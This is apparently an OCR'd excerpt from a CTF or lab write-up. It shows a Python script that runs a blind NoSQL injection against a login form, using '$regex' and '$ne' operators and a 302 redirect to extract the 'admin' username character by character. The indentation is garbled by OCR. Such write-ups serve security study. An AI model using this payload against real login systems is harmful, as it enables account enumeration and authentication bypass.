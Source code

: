 ```python
 19  chars = range(33, 127)
 20  
 21  p1 = ''
 22  
 23  
 24  def rqst(p1):
 25      data1 = "username[$regex]=^"+p1+"&password[$ne]=&login=login"
 26      r = requests.post(url, data=data1, verify=False, allow_redirects=False,
 27            headers={'Content-Type': 'application/x-www-form-urlencoded'})
 28  
 29      if r.status_code == 302:
 30      P1 = p1
 31      print('\nfound so far: ' + p1)
 32  
 33      for i in chars:
 34          if chr(i) in ['.','?','*','^','+','&','|']: 
 35          p1 = P1 +'\\'+ chr(i) # to escape chars
 36          rqst(p1)
 37          else:
 38          p1 = P1 + chr(i)
 39          print('\r'+p1, flush=False, end='')
 40          if len(p1) >=4:
 41              x = re.search(".*\$\$$", p1) # exit condition if $ (end of line) was found will exit and print the string without $
 42              if x:
 43               print('\n\nthis is the string: ' + p1[:-2])
 44               exit()
 45  
 46          rqst(p1)
 47      return
 48  
 49  
 50 print(rqst(p1))
```
running with script python3 we get the following account name **admin** as expected
